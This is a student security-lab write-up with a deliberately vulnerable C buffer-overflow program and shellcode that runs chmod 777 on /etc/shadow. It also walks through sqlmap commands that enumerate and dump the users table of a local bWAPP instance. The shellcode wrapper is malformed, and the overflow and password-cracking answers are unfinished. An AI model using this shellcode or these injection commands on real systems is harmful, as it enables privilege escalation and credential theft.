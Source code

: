 
Lab #1,22110035, Nguyen Gia Huy, Information Security_Nhom03FIE
# Task 1: Software buffer overflow attack
 
Given a vulnerable C program 
```
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode in C. This shellcode executes chmod 777 /etc/shadow without having to sudo to escalate privilege
```
#include <stdio.h>
#include <string.h>

unsigned char code[] = \
"\x89\xc3\x31\xd8\x50\xbe\x3e\x1f"
"\x3a\x56\x81\xc6\x23\x45\x35\x21"
"\x89\x74\x24\xfc\xc7\x44\x24\xf8"
"\x2f\x2f\x73\x68\xc7\x44\x24\xf4"
"\x2f\x65\x74\x63\x83\xec\x0c\x89"
"\xe3\x66\x68\xff\x01\x66\x59\xb0"
"\x0f\xcd\x80";

int
void main() {
    int (*ret)() = (int(*)())code;
}
```
**Question 1**:
- Compile both C programs and shellcode to executable code. 
- Conduct the attack so that when C executable code runs, shellcode willc also be triggered. 
  You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
**Answer 1**: Must conform to below structure:

1. Idea
`StackFrame` của chương trình 

``` 
    code block (optional)
```

output screenshot (optional)

**Conclusion**: comment text about the screenshot or simply answered text for the question

# Task 2: Attack on the database of bWapp 
- Install bWapp (refer to quang-ute/Security-labs/Web-security). 
- Install sqlmap.
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:
***Step1***
First we login to the web with username: bee, password: bug
![image](https://github.com/user-attachments/assets/6f445219-db7b-42fe-ba05-df6fd2b57b07)
***Step2***
After that, we choose SQL Injection (get/select) option and click Hack button
![image](https://github.com/user-attachments/assets/68ba1787-ad5d-4cb2-bdb7-ea59a73df331)
***Step3***
We will be redirected to the page http://localhost:8025/sqli_2.php
We collect the cookie of the webpage
![image](https://github.com/user-attachments/assets/24420808-15de-4de0-9a18-28aef6a30bd4)
We can observe that the cookie = qsfi47oc645khe9eimnnr9kcm5; security_level=0
***Step4***
We will start using SQLMap to find the existing databases of the website.
Run the command: python sqlmap.py -u "http://localhost:8025/sqli_2.php?movie=1" --dbs --cookie="qsfi47oc645khe9eimnnr9kcm5; security_level=0"
Explain the command: This command runs SQLMap to test the URL http://localhost:8025/sqli_2.php?movie=1 for SQL injection vulnerabilities. The --dbs option instructs SQLMap to enumerate and display the databases available on the target server. The --cookie option provides session cookies for authentication, allowing SQLMap to interact with the web application as an authenticated user.
Result: ![image](https://github.com/user-attachments/assets/5e009099-2b49-494e-8524-0ef11f38168d)
We can see that there are 4 available database: bWAPP, information_schema, mysql, performance_schema

**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:
***Step1***
To view user information, we need to know the information of the tables in each database
So I will try to see the table information in each database, starting with the first bWAPP database
Run the command: python sqlmap.py -u "http://localhost:8025/sqli_2.php?movie=1" -D bWAPP --tables --cookie="PHPSESSID=qsfi47oc645khe9eimnnr9kcm5;security_level=0"
Explain command: This command executes SQLMap to test the URL http://localhost:8025/sqli_2.php?movie=1 for SQL injection vulnerabilities, specifically targeting the database bWAPP. The -D bWAPP option specifies that SQLMap should focus on this particular database. The --tables option instructs SQLMap to enumerate and display the tables within the specified database. The --cookie option provides session cookies for authentication, allowing SQLMap to interact with the web application as an authenticated user.
Result: ![image](https://github.com/user-attachments/assets/15be522e-ed1f-4317-9156-281f87c6a74c)
We can observer that there are 5 table in the bWAPP database. 
***Step2***
Based on the table names, we can easily guess the user information stored in the users table in the bWAPP database
So we will read the contents of the Users table
Run the command: python sqlmap.py -u "http://localhost:8025/sqli_2.php?movie=1" -D bWAPP -T users --dump --cookie="PHPSESSID=qsfi47oc645khe9eimnnr9kcm5;security_level=0"
Explain command: This command runs SQLMap to test the URL http://localhost:8025/sqli_2.php?movie=1 for SQL injection vulnerabilities, focusing specifically on the database bWAPP and the users table. The -D bWAPP option specifies the target database, while the -T users option indicates that SQLMap should operate on the users table. The --dump option instructs SQLMap to extract and display all the data from the specified table. The --cookie option provides session cookies for authentication, allowing SQLMap to interact with the web application as an authenticated user.
Result: ![image](https://github.com/user-attachments/assets/29db088a-65c2-4383-9c18-cd040a2d820a)
Based on the image above, we can see the user information and hashed passwords

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:
